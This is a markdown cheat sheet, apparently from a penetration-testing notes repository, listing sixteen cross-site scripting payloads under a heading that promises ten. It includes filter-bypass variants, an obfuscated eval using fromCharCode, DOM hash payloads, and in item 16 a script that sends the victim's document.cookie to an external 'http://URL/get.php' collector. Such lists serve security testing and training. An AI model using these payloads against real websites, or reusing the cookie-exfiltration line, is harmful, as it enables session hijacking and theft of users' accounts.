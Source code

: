 
### 10 Top XSS Payloads 


1- `<script>alert("1")</script>`  


2- `<sCript> alert("bypassing simple filters") </sCRIpt>` 


3- PentesterLab 


4- `<a onmouseover="alert(document.cookie)">xxs link</a> | <a onmouseover=alert(document.cookie)>xxs link</a>`


5- `<img src='zzzz' onerror='alert(1)' />` 


6- `<div style="color:red" onclick=alert('xss')>`  | Coloring is adding to see the div


7- `<div style="color:green" onmouseover=alert('xss') >`


8- `<script>console.log("test")</script>` |  __Tests if word script is allowed but alert is not__


9- <img src="cc" onerror=eval(String['fromCharCode'](97,108,101,114,116,40,39,120,115,115,39,41,32))> | __alert is not allowed__ 


10- `</script><script>alert('XSS');</script>` | __escaping script tags to excute the payload__


11- `';alert('xss');//`  | The apostrophe character is used to escape in PHP htmlentities __'__


12- `' onerror=alert('xss');> ` &nbsp;  &nbsp; |  &nbsp; use this if the vulnerability in the image


13- `#<script>alert(1)</script>` &nbsp;  &nbsp;  |  &nbsp;  __exploiting the DOM xss with hash.substring__

14- `#javascript:alert(1)`  &nbsp;  &nbsp; |  &nbsp;  __exploiting the DOM xss with hash.substring__

15- `" onmouseover="alert(1)` &nbsp;  &nbsp; |  &nbsp;

16- `<script> var i = new Image(); i.src="http://URL/get.php?cookie="+escape(document.cookie)</script>` | __to get cookie__

### Extra Resources:

- [Convert Characters to ASCII Codes](https://www.browserling.com/tools/text-to-ascii)

- [Complete List of XSS Payloads:](https://github.com/nairuzabulhul/RoadMap/blob/master/PTP/Web_Security/XSS_Payload_List.txt)

- [ABC of XSS](https://quanyang.github.io/the-abcs-of-xss/)

- [Infosec Notes](http://f4l13n5n0w.github.io/blog/2015/05/21/pentesterlab-web-for-pentester-xss/)

- 
